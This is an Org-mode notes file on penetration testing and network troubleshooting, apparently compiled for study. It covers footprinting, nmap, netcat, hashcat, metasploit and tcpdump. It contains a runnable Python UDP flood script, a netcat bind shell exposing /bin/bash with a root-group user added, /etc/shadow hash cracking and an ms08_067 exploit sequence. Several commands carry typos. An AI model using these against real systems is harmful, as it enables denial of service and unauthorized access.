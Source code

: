 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
* footprinting
** website footprinting
 - operating system used.
 - subdirectories and parameters
 - Filename, path, database field name, or query:You should analyze anything after the
   a  query that looks like a filename, path, database field name, or query carefully
   to check whether it offers opportunities for SQL injection
 - Scripting platform
 - Contact details and CMS details: The contact pages usually offer details such as names
   phone numbers, email addresses, and locations of admin or support people.

** view headers
 - Connection status and content-type
 - Accept-ranges
 - Last-Modified information
 - X-Powered-By information
 - Web server in use and its version

** examine cookies set by the server to determine the software
running and its behavior.

** Email footprinting
By using email tracking tools you can gather the following information about
the victim:

 - Geolocation
 - read duration
 - proxy detection
 - links : allows you to check whether the links sent to the recipient through email
   have been checked or not.
 - Operating System
 - Forward email : whether or not the email sent to you is forwarded to another person
   can be determined easily by using this tool.

* Kali linux prep
** install linux headers for kali

#+begin_src shell 
$ apt-cache search header | grep -i linux
#  look for the one ending in –kali-all-amd64
$ apt-get install linux-headers-4.4.0-kalli-all-amd64
#+end_src 

** install kali guest additions

#+begin_src shell 
$ cd /media/cdrom0
$ cp VBoxLinuxAdditions.run /root/Desktop
$ ./VBoxLinuxAdditions.run
#+end_src 

** use network managed mode

#+begin_src shell 
$ vim /etc/NetworkManager.conf
# change managed=false to managed=true
#+end_src 

** permit =Root= login for SSH

#+begin_src shell 
$ vim /etc/ssh/sshd_config
#  change line PermitRootLogin without-password
#  PermitRootLogin yes
#+end_src

** set ssh to start at every bood
#+begin_src shell
$ update-rc.d -f ssh enable 2 3 4 5
#+end_src 

* google search operators
|            |                                                                                                |
|------------+------------------------------------------------------------------------------------------------|
| Operator   | Description intitle Looks for the search terms in the title                                    |
| allintitle | Looks for the search terms only in the title and nowhere else in the document                  |
| inurl      | Looks through the URL (the address) for the search terms                                       |
| allinurl   | Similar to allintitle     looks only in the URL for the search terms                           |
| filetype   | You provide the filetype and search terms. All results have that filetype.                     |
| allintext  | The search will not look at the URL and just in the text.                                      |
| site       | Narrow your search to a particular site. You have to provide the site as well as search terms. |
| link       | Searches for links to pages                                                                    |
| inanchor   | This search will look in anchor tags only                                                      |
| numrange   | Searches for a number                                                                          |
| daterange  | Results will be within a range of dates            as specified                                |
| author     | Searches Google Groups for a particular author. This only works in Google Groups.              |
| group      | Looks for a group name. This only works in Google Groups.                                      |
| insubject  | Searches subject lines in posts. This only works in Google Groups.                             |
| msgid      | Searches within a group for a message ID.                                                      |

http://www.googleguide.com
* whois & DNS
** query
#+begin_src shell
$ whois apress.com
$ whois -h whois.apnic.net <host>
# Looking up all the whois records that are maintained by the
# folks from Yahoo!. The following command shows how you do this:
$ whois –i mnt-by YAHOO-MNT
# filter ip addresses
$ whois –i mnt-by YAHOO-MNT | grep inetnum
$ whois –i mnt-by YAHOO-MNT | grep inetnum | awk –F\: '{ print $2 }'
#+end_src 

** whois query query handler

| whois.nic.ir    |
| whois.apnic.net |
| whois.arin.net  |

** MX record

Every domain will have at least one MX record. Knowing the hostname from the MX
record will tell you which system you need to interact with if you want to
perform penetration testing against the organization's receiving mail server
using the simple mail transfer protocol (SMTP) .

#+begin_src shell
# MX records
$ dig Mx apress.com
#using nslookup
$ nslookup
> set type=mx
> apress.com
#+end_src

** reverse DNS lookup
#+begin_src shell 
$ dig -x [IP address]
#+end_src 

* port scan 

#+begin_src shell 
# -p- scann all 65536 ports
$ sudo nmap -sS -p- 172.30.42.1
# udp port scan
$ sudo namp -sU
# operating system scan
$ sudo nmap -sS -O 172.30.42.1
# scan one port 
$ sudo nmap -sV -p 22,53 <ip>
# TCP full connection scan
$ nmap -sT -vvv -p 80 192.168.195.0/24
# SYN scan
$ nmap -sS -vvv -p 80 192.168.195.0/24
# ACK scan
$ nmap -sA -vvv -p80 192.168.195.0/24
# UDP scan
$ nmap -sU -vvv -p161 192.168.195.0/24
# combined UDP and TCP scan
$ nmap -sS -sU -vvv -p U:161,139 T:8080,21 192.168.195.0/24
# service detection
$ nmap -sS -vvv -Pn -sV<targetIP>
#+end_src 

** scanning default gateways
#+begin_src shell
for i in `seq 1 255`; do ping -c 1 192.168.$1.1 | tr \\n ' ' | awk '/1
received/ {print $2}'; done
#+end_src

* banner grabbing
use telnet for TCP and nc for UPD connections.

#+begin_src shell 
$ telnet <host> <port>
$ nc -u <host> <port>
#+end_src

* host discovery with =arping=
arping uses ARP requests and replies instead of ICMP packets.
#+begin_src shell 
$ arping [ip address]
# I've used the MAC address, but the IP address could also be used.
$ arping -v -c3 00:10:7b:66:f7:62
#+end_src 

* netcat
** port scan using =netcat= 

 #+begin_src shell 
 $ netcat -z -v domain.com 1-1000
 #ou can then use the -n flag to specify that you do not need to resolve the IP address using DNS:
 $ netcat -z -n -v 111.111.111.111 1-1000
 $ netcat -z -n -v 111.111.111.111 1-1000 2>&1 | grep succeeded
 # to randomized port scanning use -r switch
 $ nc –v –r –w 1 192.168.0.10 –z 1-1000
 # scanning a range of devices
 $ for i in {10..12}; do nc –vv –n –w 1 192.168.0.$i 21-25 –z; done
 #+end_src

** communicate through =netcat=

 On one machine, you can tell netcat to listen to a specific port for
 connections. We can do this by providing the -l parameter and choosing a port:

 #+begin_src shell 
 netcat -l 4444
 #+end_src

 This will tell netcat to listen for TCP connections on port 4444

 On a second server, we can connect to the first machine on the port number we
 choose. We do this the same way we've been establishing connections previously:

 #+begin_src shell 
 netcat domain.com 4444
 #+end_src 

 It will look as if nothing has happened. However, you can now send messages on
 either side of the connection and they will be seen on either end.
** =netcat= chat interface

 #+begin_src shell 
 $ nc -l -p 4444         # host ip 192.168.1.102
 $ nc 192.168.1.102 4444
 #+end_src 

** transfering data with =netcat=

 #+begin_src shell 
 # server +++ -w 30 wait for 30 seconds 
 $ nc –v –w 30 –p 31337 –l < secret.txt
 # client
 $ nc –v –w 2 192.168.0.10 31337 > secret.txt
 #+end_src 

** banner grabbing

 #+begin_src shell 
 $ nc 192.168.1.1 80
 #+end_src 

** Linux remote shell 

 to prepare the listener we will type the following command into the command
 line:

 #+begin_src shell 
 $ sudo nc –lp 31337 –e /bin/bash
 #Connecting to the target
 $ nc 192.168.0.11 31337
 # Adding a local user and placing into the root group
 $ useradd –g root bob
 #+end_src

** send receive syslog
#+begin_src shell
# How to send log message to remote server?
$ nc -w0 -u 192.168.1.1 514 <<< "logging from remote"
# listen for messages
$ nc -l -u 512
#+end_src 

* sample python flood scriptf
  
#+begin_src python
import socket
import random

sock=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes=random._urandom(1024)
ip=raw_input('Target IP:')
port=input('Port:')
sent=0

while 1:
	sock.sendto(bytes,(ip,port))
	print "Sent %s amount of packets to %s at port %s: " % (sent,ip, port)
	sent = sent + 1
#+end_src 

* Cracking Linux Password Hashes with Hashcat 
  
** Getting Hashcat 2.00

Hashcat updated to 3.00 and it won't run in a virtual machine anymore. The simplest solution is to use the old version.
In a Terminal window, execute these commands:
#+begin_src shell
cd
mkdir hash
cd hash
wget https://hashcat.net/files_legacy/hashcat-2.00.7z
7z e hashcat-2.00.7z
./hashcat-cli32.bin -V
#+end_src 

#+begin_src shell
# get the hash for a username
$ cat /etc/shadow

# Finding the salt value
# The $6$ value indicates a type 6 password hash (SHA-512).
# The characters after $6$, up to the next $,  are the SALT.
$ cat /etc/show
root:$6$QYVo1xui$JS7zZtJ857Ti5nKYjTAcVUKqe.87yZvUXgehw2irI5k.0NzhI8PLkga8pz3uR7b8V.lF9qpxZtACqIBNKM.yB0:17235:0:99999:7:::

# Hash algorithm?
# the hash algorithm is defined in the file /etc/login.defs.
$ grep -A 18 ENCRYPT_METHOD /etc/login.defs

# Making a Hash File
# add the hashed password to a file
# and remove the last part for the above hash value delete everything after the yB0
# and the username 

# make a wordlist
$ curl http://www.scovetta.com/download/500_passwords.txt > 500_passwords.txt
head 500_passwords.txt

# Cracking the Hash
$ ./hashcat-cli32.bin -m 1800 -a 0 -o found1.txt --remove crack1.hash 500_passwords.txt
$ cat found1.txt

# Unix type 6 password hashes (-m 1800)
# Using a dictionary attack (-a 0)
# Putting output in the file found1.txt
# Removing each hash as it is found
# Getting hashes from crack1.hash
# Using the dictionary 500_passwords.txt
#+end_src 

https://samsclass.info/123/proj10/p12-hashcat.htm

* metasploit
** init
   
#+begin_src shell 
$ service postgresql start
$ service metasploit start
$ msfconsole
msf > search ms08-067
msf > info exploit/windows/smb/ms08_067_netapi
msf > use windows/smb/ms08_067_netapi
msf > show options
# setting RHOST
msf > set RHOST 192.168.20.10
msf > exploit
#+end_src

* network
** netstat
#+begin_src shell

# routing table
$ netstat -rn
#+end_src

** lsof

#+begin_src shell
# internet connections
# unlike netstat lsof will not report connections that do not have open files.
$ lsof -i

# open files by process name
$ lsof -cemacs24

#open files by pid
$ lsof -p `pidof emacs24`

# specify and address (lsof)
# only files related to the address will be showed.
$ lsof -i@sloan.lander.edu


#+end_src

** ARP
If some machines on your network are reachable but others aren't, or
connectivity comes and goes, ARP problems may be the cause.

#+begin_src shell
# show arp cache table
$ arp -a
#+end_src

** traceroute
#+begin_src shell
# use -n to disable name resolution
$ traceroute -n 

#+end_src

** iperf

#+begin_src shell
# starting server
$ iperf -s -p3000

#client
$ iperf -c205.153.60.236 -p3000
#+end_src

** tcpdump
#+begin_src shell
# capture 100 packets and terminate
$ tcpdump -c100

# dump traffic of specific interface
$ tcpdump -i eth0

# disable name resolution
$ tcpdump -n

#address filtering
#This command captures all traffic to and from the host with the IP address 205.153.63.30.
$ tcpdump host 205.153.63.30

# Here is an example that uses the Ethernet address of a computer to select traffic
$ tcpdump ether host 0:10:5a:e3:37:c

# a filter that collects traffic sent to the host at 205.153.63.30 but not from i
$ tcpdump dst 205.153.63.30

# capture to packets coming from or going to the 205.153.60.0 network
$ tcpdump net 205.153.60

#The following command does the same thing:
$ tcpdump net 205.153.60.0 mask 255.255.255.0

#restricts the traffic captured to IP traffic
# IP traffic will include TCP traffic, UDP traffic, and so on
$ tcpdump ip

#To capture just TCP traffic, you would use:
# Recognized keywords include ip, igmp, tcp, udp, and icmp.
$ tcpdump tcp


#There are many transport-level services that do not have recognized keywords. In this case, you can
#use the keywords proto or ip proto followed by either the name of the protocol found in the
#/etc/protocols file or the corresponding protocol number. For example, either of the following will
#look for OSPF packets:
$ tcpdump ip proto ospf

#For higher-level services, services built on top of the underlying protocols, you must use the keyword
#port.
#the keyword domain is resolved by looking in /etc/services.
$ tcpdump port domain
$ tcpdump port 53

#This will capture DNS name lookups using UDP but not DNS zone transfers using TCP.
$ tcpdump udp port domain

#This command collects packets longer than 200 bytes.
$ tcpdump greater 200

# proto[expr:size] is the general syntax.
# proto indicates which header to look into -ip;tcp & ...
# expr gives an offset into the header indexed from 0


# looks into the IP header at the tenth byte, the protocol field, for a value of 6.
$ tcpdump "ip[9] = 6"     #the same as $tcpdump tcp

#This will match multicast and broadcast packets.
$ tcpdump 'ether[0] & 1 != 0'

#This filter skips the first 13 bytes in the TCP header, extracting the flag byte. The mask 0x03 selects
#the first and second bits, which are the FIN and SYN bits.
$ tcpdump "tcp[13] & 0x03 != 0"

# compound filters
$ tcpdump host 205.153.63.30 and ip
#all traffic to the host except IP traffic
$ tcpdump host 205.153.63.30 and not ip

#captures all UDP or ARP traffic to or from lxn1.
$ tcpdump "host lnx1 and (udp or arp)"

#suppose you are interested in capturing traffic on the host lnx1, you are logged onto the
#host bsd1, and you are using telnet to connect from bsd1 to lnx1. To capture all the traffic at lnx1,
#excluding the Telnet traffic between bsd1 and lnx1, the following command will probably work
#adequately in most cases:
lnx1# tcpdump -n "not (tcp port telnet and host lnx1 and host bsd1)"

#+end_src

* smurf attack

In a Smurf Attack, ICMP ECHO_REQUEST packets are sent to the broadcast address
of a network. Depending on how hosts are configured on the network, some may
attempt to reply to the ECHO_REQUEST.

* network troubleshooting

** Testing Connectivity with ping Problem
*** check network interface is up and running
#+begin_src shell 
$ ping localhost
#+end_src
*** confirm local networking is working properly
**** intro
#+begin_src shell
$ ping -c10 uberpc
#+end_src
The output from that simple command gives you several useful pieces of
information, including that name resolution is working and you have a good,
clean, fast connection.
**** check hostname

#+begin_src shell
$ ping -c10 uberpc
#ping: unknown host uberpc
#+end_src 

This means you entered the wrong hostname, DNS is broken, routing is goofed up,
or the remote host is not connected to the network. So, your next step is to
ping the IP address:

#+begin_src shell
$ ping -c10 192.168.1.76
PING 192.168.1.76 (192.168.1.76) 56(84) bytes of data.
From 192.168.1.10 icmp_seq=1 Destination Host Unreachable
[...]
From 192.168.1.10 icmp_seq=10 Destination Host Unreachable

--- 192.168.1.76 ping statistics ---
10 packets transmitted, 0 received, +9 errors, 100% packet loss, time 9011ms
, pipe 3
#+end_src 

This shows that you entered the wrong IP address or the host is down, but you
got as far as a router on the host's network. You know this because the router
sent you the "Destination Host Unreachable" message.

If pingingr the IP address had succeeded, then that would point to a DNS problem.
**** check connection to network
This is what it looks like when your own PC is not connected to the network:

#+begin_src shell
$ ping -c10 192.168.1.76
connect: Network is unreachable
#+end_src

**** check connection to remote network
This is what you see when the whole remote network is unreachable:

#+begin_src shell
$ ping -c10 alrac.net
PING alrac.net(11.22.33.44) 56(84) bytes of data.
--- alrac.net ping statistics ---
10 packets transmitted, 0 received, 100% packet loss, time 10007ms
#+end_src

** profiling
*** ping whole subnet
**** with Fping
FPing pings all the addresses in a range in sequence. This example pings a
subnet once, reports which hosts are alive, queries DNS for the hostnames, and
prints a summary:

#+begin_src 
	$ fping -c1 -sdg 192.168.1.0/24
	xena.alrac.net    : [0], 84 bytes, 0.04 ms (0.04 avg, 0% loss)
	pyramid.alrac.net : [0], 84 bytes, 0.45 ms (0.45 avg, 0% loss)
	uberpc.alrac.net  : [0], 84 bytes, 0.11 ms (0.11 avg, 0% loss)
	ICMP Host Unreachable from 192.168.1.10 for ICMP Echo sent to 192.168.1.2
	ICMP Host Unreachable from 192.168.1.10 for ICMP Echo sent to 192.168.1.3
	ICMP Host Unreachable from 192.168.1.10 for ICMP Echo sent to 192.168.1.4
	[...]

	192.168.1.9       :  xmt/rcv/%loss = 1/0/100%
	xena.alrac.net    :  xmt/rcv/%loss = 1/1/0%, min/avg/max = 0.04/0.04/0.04
	192.168.1.11      :  xmt/rcv/%loss = 1/0/100%
	[...]
	     128 targets
	       3 alive
	     126 unreachable
	       0 unknown addresses

	       0 timeouts (waiting for response)
	     127 ICMP Echos sent
	       3 ICMP Echo Replies received
	     102 other ICMP received

	 0.04 ms (min round trip time)
	 1.02 ms (avg round trip time)
	 2.58 ms (max round trip time)
	        6.753 sec (elapsed real time)

# use this to show up hosts only
$ fping -c1 -sdg 192.168.1.0/25 2>&1 | egrep -v "ICMP|xmt"
#+end_src
**** with nmap

If all you want to do is to discover all the up hosts on your network, Nmap is
faster and less verbose:
#+begin_src shell
	# nmap -sP 192.168.1.0/24
	Starting Nmap 4.20 ( http://insecure.org ) at 2007-06-08 15:53 PDT
	Host xena.alrac.net (192.168.1.10) appears to be up.
	Host pyramid.alrac.net (192.168.1.50) appears to be up.
	MAC Address: 00:0D:B9:05:25:B4 (PC Engines GmbH)
	Host uberpc.alrac.net (192.168.1.76) appears to be up.
	MAC Address: 00:14:2A:54:67:D6 (Elitegroup Computer System Co.)
	Nmap finished: 256 IP addresses (3 hosts up) scanned in 4.879 seconds
#+end_src 

* useful resources
http://www.iana.org/assignments/icmp-parameters/icmp-parameters.xhtml

* temp
If some machines on your network are reachable but others aren't, or connectivity comes and goes,
ARP problems may be the cause.


* useful resources
http://ftp.ntua.gr/mirror/technotronic/
/media/moh/59920B8A5B5D077A/mybase/reilly/(O'Reilly System Administration) Joseph D Sloan-Network Troubleshooting Tools-O'Reilly Media (2001).pdf
